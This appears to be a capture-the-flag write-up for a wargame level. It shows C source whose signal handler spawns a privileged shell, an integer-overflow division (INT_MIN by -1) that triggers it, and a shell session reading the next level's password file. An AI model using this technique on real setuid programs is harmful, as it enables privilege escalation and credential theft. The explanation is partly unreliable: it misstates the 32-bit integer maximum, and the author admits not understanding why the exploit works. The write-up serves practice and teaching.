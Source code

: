 1. Check out the source file to see what we need to do:
   ```
   //a little fun brought to you by bla
   
   #include <stdio.h>
   #include <stdlib.h>
   #include <signal.h>
   #include <setjmp.h>
   
   void catcher(int a)
   {
        setresuid(geteuid(),geteuid(),geteuid());
        printf("WIN!\n");
        system("/bin/sh");
        exit(0);
   }
   
   int main(int argc, char **argv)
   {
        puts("source code is available in level02.c\n");
   
        if (argc != 3 || !atoi(argv[2]))
            return 1;
        signal(SIGFPE, catcher);
        return abs(atoi(argv[1])) / atoi(argv[2]);
   }
   ```

2. We see that there's a signal to catch a SIGFPE: a floating point exception. Something like this can be caused by dividing by zero or some other similar exception (as you'll see below). We also see that there's a check to make sure we supply two command line arguments, and the second argument can not be zero. As the final return line shows, the first argument is dividied by the second and the absolute value of this operation is returned. Since argv[2] can't be zero, we need to find some other way to cause an exception.

  Some things to look into would be the max 32 bit integer value (2,147,483,648) and doing some kind of weird division there to cause an error.

3. Now here's the solution:
   ```
   level2@io:/levels$ ./level02 -2147483648 -1
   source code is available in level02.c

   WIN!
   sh-4.2$ cat /home/level3/.pass
   [Password to level3]
   ```

* To be perfectly honest, I'm not totally sure why this works. I'll look into a bit more to figure out exactly why this causes a SIGFPE.
